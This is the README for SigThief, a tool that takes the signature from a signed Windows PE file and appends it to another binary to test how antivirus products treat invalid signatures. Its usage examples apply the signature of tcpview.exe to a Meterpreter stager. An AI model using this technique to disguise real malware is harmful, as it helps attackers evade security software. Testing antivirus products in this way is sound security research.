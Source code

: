 # SigThief

Donate BTC: 16GfwSnSA7s5BtBfsPBdU59H4F6veq5uqk

Donate ETH: 0x7cCeC48F9F1470d663d4862784a03bee2d91834A 

---
Stealing Signatures and Making One Invalid Signature at a Time (Unless you read this:
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf) 这PDF介绍了，如何将无效证书变为有效。

https://twitter.com/subTee/status/912769644473098240
![alt text](https://i.imgur.com/T05kwwn.png "https://twitter.com/subTee/status/912769644473098240")

## For security professionals only...

## What is this?

I've noticed during testing against Anti-Virus over the years that each is different and each prioritize PE signatures differently, whether the signature is valid or not. There are some Anti-Virus vendors that give priority to certain certificate authorities without checking that the signature is actually valid, and there are those that just check to see that the certTable is populated with some value. It's a mess.

So I'm releasing this tool to let you quickly do your testing and feel free to report it to vendors or not. 

In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file. 

Of course it's **not a valid signature** and that's the point!

I look forward to hearing about your results!


## How to use

### Usage
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  input file
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

### Take a Signature from a binary and add it to another binary 复制程序A的证书到程序B

```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe 
Output file: /tmp/msftesting_tcpview.exe
Signature appended. 
FIN.
```

### Save Signature to disk for use later 保存证书信息到硬盘
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped. 
FIN.

```

### Use the ripped signature 使用保存的证书
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended. 
FIN.

```

### Truncate (remove) signature 移除证书信息
This has really interesting results actually, can help you find AVs that value Signatures over functionality of code. Unsign putty.exe ;)

```
$ ./sigthief.py -i tcpview.exe -T    
Inputfile is signed!
Output file: tcpview.exe_nosig
Overwriting certificate table pointer and truncating binary
Signature removed. 
FIN.
```

### Check if there is a signature (does not check validity) 检测是否有证书,不检测有效性
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
